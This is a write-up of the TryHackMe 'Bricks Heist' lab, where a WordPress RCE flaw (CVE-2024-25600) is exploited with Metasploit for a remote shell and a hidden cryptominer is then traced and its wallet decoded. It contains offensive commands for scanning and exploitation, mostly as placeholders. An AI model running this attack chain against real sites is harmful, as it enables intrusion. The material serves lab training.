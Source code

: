 🚨 Bricks Heist – A Digital Crime Investigation
Bricks Heist (https://tryhackme.com/room/tryhack3mbricksheist) on TryHackMe isn't just another room — it's a full-on cybercrime investigation.
The mission? Investigate the compromise of Brick Press Media Co.’s infrastructure, uncover the attack vector, trace the malware, and ultimately identify the culprit behind the scenes.
Let’s dive into this cyber whodunit. 🕵️‍♂️
👥 Teamwork Makes the Dream Work
This investigation was carried out by me and my friend enkrat — a fellow cyber security enthusiast with sharp instincts and a passion for justice in the digital world.
(Link to enkrat’s profile coming soon.)
🔍 Step 1 – Port Scanning
We kicked off our recon with a custom Python port scanner.
It didn't take long to uncover that bricks.thm was exposing three open ports to the world:
Port 22 (SSH)
Port 443 (HTTPS)
Port 3306 (MySQL)
python3 portscanner.py 10.10.10.10 

🧭 Step 2 – WordPress Plugin Discovery & Vulnerability Detection
Digging into the website’s source code, we discovered a hidden WordPress instance.
Running wpscan, we found that while the WordPress core wasn’t vulnerable, it was using an outdated plugin affected by CVE-2024-25600 — a critical flaw allowing remote code execution (RCE).
wpscan --url https://bricks.thm --api-token YOUR_TOKEN 

💥 Step 3 – Gaining RCE via Metasploit
We fired up msfconsole, loaded the appropriate exploit for CVE-2024-25600, configured the options, and launched the attack.
msfconsole use exploit/unix/webapp/your_exploit set RHOSTS bricks.thm set TARGET 0 set LHOST tun0 run 

Boom — we had remote shell access. 🔥
🕵️ Step 4 – Suspicious Files and Flag Discovery
Inside the compromised system, we noticed a file with a very interesting name — clearly the flag.
We also ran ps aux to check for any strange processes, and there it was: a cryptocurrency miner, silently draining CPU cycles.
ps aux | grep -v 'chrome\|bash' 


🔎 Step 5 – Tracing the Miner
We followed the traces of this rogue process and ended up at a suspicious directory.

After some deep-diving, we found it — the miner itself, hidden in /lib/NetworkManager.

🧠 Step 6 – Following the Money
Scrolling through the miner’s config, we found an encrypted wallet address.
Using CyberChef (https://gchq.github.io/CyberChef/), we decoded the string and revealed the true destination of the mined cryptocurrency.
Unfortunately, we can’t show the decrypted wallet — it’s part of the flag.
🎯 Final Result – Unmasking the Attacker
All digital footprints led to one name: Ivan Kondratev.
Based on the evidence trail, it’s clear he and his team were behind the installation of the cryptominer.
✅ What We Achieved
✅ Custom Python scan revealed three open ports
✅ Detected vulnerable WordPress plugin with RCE
✅ Exploited it with Metasploit for shell access
✅ Found the miner process and traced it to its directory
✅ Located encrypted wallet & decoded it using CyberChef
✅ Identified Ivan Kondratev as the attacker
🛠️ Commands That Helped
# Port scanning (custom script) python3 portscanner.py 10.10.10.10 # WordPress vulnerability scan wpscan --url https://bricks.thm --api-token YOUR_TOKEN # Metasploit RCE exploit msfconsole use exploit/unix/webapp/your_exploit set RHOSTS bricks.thm set LHOST tun0 run # Process inspection ps aux # Check suspicious files ls -la /lib/NetworkManager cat miner_config.json 
💡 Tips for Beginners
🧠 Always check the source code of the target site for hidden paths or comments.
🔧 Use tools like wpscan, nmap, and ps — but understand what they do, not just the output.
🗃️ If you spot strange processes, follow the trail to their binary or config location.
🕵️ Investigations are about connecting the dots — logs, file names, running processes, and encoded strings often tell a story.
🛡️ Practice, document your process, and don’t be afraid to dig deep — even failed paths teach something.
If you liked this write-up, check out my friend enkrat for more investigations and cyber adventures.
🔗 
Room link:
https://tryhackme.com/room/tryhack3mbricksheist
